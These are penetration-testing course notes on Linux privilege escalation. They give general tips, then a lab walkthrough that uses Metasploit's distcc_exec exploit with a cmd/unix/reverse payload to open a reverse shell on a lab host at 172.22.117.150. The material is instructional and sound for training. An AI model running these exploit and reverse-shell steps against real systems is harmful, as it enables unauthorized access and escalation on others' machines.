 *Tips for successful privilege Escalation*
1. Utilize information gathered during enumeration
	- Gathering information allows us to identify a potential path privilege escalation 
		- Common Linux paths of privilege escalation;
			- Abusing current access 
				- IE sudo group, writable files, read access to sensitive files 
			- Exploitation of software
			- Utilizing weak passwords of privileged users 
2. use the path of least resistance
	- Search for the easiest possible way to obtain your objective instead of jumping to a difficult task 
		- IE: 
			- user keep password in a text file 
				- Instead of hijacking and keylogging, you can find the text file 
			- Finding passwords in files or abuse functionality (IE scripting run as root but world-writable) is stealthier which is a key component of red teaming 
 3. exploit vulnerable software 
	 - Exploitation of vulnerable software is often suggested as a last step due to the nature of privilege-escalation tech
		 - Involves abusing a service which has the potential to crash and bring down the machine 
			 - finding as much information as possible on the machine during enumeration is key to help find any other possible privilege-escalation paths 

____
Activity: Privilege escalation 
Steps before we go to activity 
Post Exploitation Activity Setup

We will first set up a low-privileged shell using Metasploit, which you will then use for post-exploitation and privilege-escalation techniques.

1. In Metasploit, search for `distcc`, and select it
    - `search distcc`.
    - `use 0` or `use exploit/unix/misc/distcc_exec`.
    
    - `distcc` is a tool for compiling code. It runs as a daemon with low permissions, and this version is vulnerable.
2. List the options of the module, and note that we need to set RHOSTS again as it is a required option.
    - `set RHOSTS 172.22.117.150`
3. Before running the module, we need to set a payload. List the available payloads.
    - `show payloads`
    - Note the **Description** column, as it shows in parentheses how the payload is communicating.
4. Select the **reverse** payload. Be sure NOT to select **reverse_bash**, or the exploit will not work.
    - `set PAYLOAD cmd/unix/reverse`
    - Note that we are now using the PAYLOAD with our EXPLOIT!
5. List options again, and note that there's a new blank setting, LHOST. This is our "listening host," which is the host that listens for the payload communication. In this case, our LHOST is the machine that we're currently operating on. Use `ifconfig` to show your IP (eth0) and set LHOST to that IP.
    - `set LHOST 172.22.117.100`
6. Run the module.
    - `exploit` OR `run`
    